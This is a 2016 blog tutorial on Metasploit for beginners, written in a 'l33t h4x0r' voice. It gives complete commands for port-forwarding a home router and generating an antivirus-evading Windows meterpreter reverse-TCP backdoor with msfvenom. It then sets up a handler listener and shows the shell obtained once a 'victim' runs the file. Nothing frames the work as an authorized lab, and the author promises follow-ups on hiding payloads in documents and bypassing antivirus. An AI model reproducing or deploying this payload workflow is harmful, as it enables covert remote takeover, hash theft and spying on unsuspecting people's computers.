```yaml
---
layout:     post
comments:   true
title:      "Beginner's Guide to Metasploit"
subtitle:   "Super l33t h4x0r time!"
date:       2016-03-27 12:00:00
author:     "ex0dus"
header-img: "img/PostBG/post-bg-06.png"
---
```


<p>Due to popular request, I'm going to teach Metasploit.</p>
<p><b>Metasploit</b> is a pen testing framework suite written in the Ruby programming language. People use Metasploit to commonly gain access to a computer, through exploits, which find flaws, whether in the system or software the victim has and allows you to gain access.</p>
<p>It is pretty complicated, so I will be covering some of the essentials in a simple tutorial. 
We will set up a basic so-called "virus". Technically it’s a payload that acts as a backdoor, so that once the user executes it, you get ahold of their computer.</p>
<p>This tutorial will mostly base around the premise that your target is outside your network, so there is going to be a little configuration.</p>
<h2 class="section-heading">Installing</h2>
<p> If you are on Kali Linux, which is recommended, metasploit is automatically installed, as I have said before. Simply type <b>"msfconsole"</b> to get started. I recommend using the Linux version. The Windows version is pretty limited and is kind of shit. If you are on Ubuntu like me, and want to install it, good luck. This was probably one of the hardest things I've ever done. You might as well use Kali on VM if you can't install it. But if you are hardcore, click <a href="http://www.darkoperator.com/installing-metasploit-in-ubunt/"><b>Here</b></a>
<h2 class="section-heading">Getting Started</h2>
1. Type "ifconfig" in your terminal. Obtain your inet address, most likely in wlan0 or eth0 (it should be 192.168.x.x for most). This is your computers given address on your network. 
<img src="/img/BeginnersGuideToMetasploit/ifconfig.png">
2. Open your router settings. This is achieved by typing 192.168.1.1 in your browser (search it up if it isn't it. Every router brand is different. I use a Verizon router).
<img src="/img/BeginnersGuideToMetasploit/verizonlogin.png">
3. Find out where port forwarding is. There may be a tab called “Firewall” you might have to click. Again, all router brands are different in terms of settings and configuration, so you might have to go on the Internet and search it up. For my Verizon router, there is a tab called “Firewall”. After clicking on it, I get routed to another page, where this a tab on the side called “Port Forwarding”.
<img src="/img/BeginnersGuideToMetasploit/firewallportfor.png">
4. Enter the IP address you had previously, the one for your computer. Port forward port “4444”. What will happen is, when you receive a request for a connection to your public IP address through port 4444, it will be rerouted to your local IP. It’s kind of like a map. Port forwarding is me building a shortcut. 
5. In your terminal, we will make our payload. Type:
<pre><code class="language-bash">msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00′ LHOST=[your PUBLIC IP] LPORT=4444 -f exe > payload.exe</code></pre>
Let’s break this down. <b>MSFvenom</b> is the payload creation script (it was originally msfpayload). <b>–P</b> is the parameter to pass that signifies what kind of payload we are creating. In this case, we are creating a <b>windows/meterpreter/reverse_tcp</b> one. This kind of payload will create a shell called Meterpreter, which is like the Command Line, but for hackers. I’ll get to it later. <b>–E x86/shikata_ga_nai</b> is the parameter for encoding the payload using shikata_ga_nai, where we mask it so that the victim’s anti-virus won’t detect the payload, since it is technically, a virus. Encoding a payload using MSFvenom isn’t really effective anymore, but it is for the sake of demonstration. Don’t worry, there are ways to mask payloads and bypass AV. I will talk about it later. <b>–I 5</b> means we encode it 5 times. <b>–B ‘x/00’</b> has something to do with shellcode, and we won’t really get into it. Now however the next part, LHOST and LPORT is important. You will enter your public IP address in LHOST. Public, not the 192.168.x.x one. Your LPORT will be 4444. This means that once the victim opens the payload, a connection will be sent to your public IP, and it will forwarded to your local IP (the 192.168.x.x one), where a listener will be set up (we will do this in the next 2 steps).
6. After you press enter, the payload will generate. Open another terminal and type “msfconsole”. You will see an interpreter-style-thingy like this:
<img src="/img/BeginnersGuideToMetasploit/msfcli.png">
7. After your payload is generated, it should be in your /root/ directory. Leave it where it is for now. In your terminal with Metasploit open, type 
<pre><code class="language-bash"><b>msf ></b> use exploit/multi/handler</code></pre>
8. This is the handler that will be set up to handle the incoming request from the victim's computer. Now type in:
<pre><code class="language-bash"><b>msf exploit(handler) ></b> set LHOST=[your LOCAL IP here]</code></pre>
9. We will establish a listener that will listen for the request. It will be hosted on your computer, hence the LOCAL IP.
<pre><b>msf exploit(handler) ></b>set LPORT=4444</pre>
10. This establishes the port. Now type:
<pre><b>msf exploit(handler) ></b>show options</pre>
11. Everything should be set and in place. Now type run:
<pre><code class="language-bash"><b>msf exploit(handler) ></b>run
12. You will see something like:
[*]Started reverse handler on 192.168.x.x:4444
[*]Starting the payload handler…</code></pre>
13. You have set up your handler and listener! Now in order to get a Meterpreter shell, a victim needs to open your payload. Doing so, a connection will be sent back, and your listener will intercept the connection and the handler will start a meterpreter session, which looks like:
<pre><b>meterpreter></b></pre>
14. Congrats! You learnt the basics of Metasploit. Now you may ask, what to do with meterpreter? Well, here’s an example:
<pre><code class="language-bash"><b>meterpreter></b> shell
Process 2314 created
Channel 1 created
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
<b>C:\Windows\System32></b></code></pre>

This establishes a Windows Command Prompt shell and now you have access over the victim's computer!
You can do much more with Meterpreter. You can take a screeshot of the victim's computer, see system processes, steal hash, etc. Here’s a list:
<a href="http://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/"><b>Null Byte</b></a>

<p> Well that is all. This article was probably a little dull, but I will soon elaborate on this tutorial. I will talk about exploitation through obfuscating payloads in PDF files, text documents, videos, etc. I will also talk about bypassing AV (anti-virus), since many modern day AVs detect these Metasploit payloads as viruses and backdoors. </p>

<h2> Of course, I will be back to make more soon. If you ever have any inquiries or concerns, I have set up a Contact Form in the <b>Contact</b> section of this site! Please do not hesistate to use it.</h2>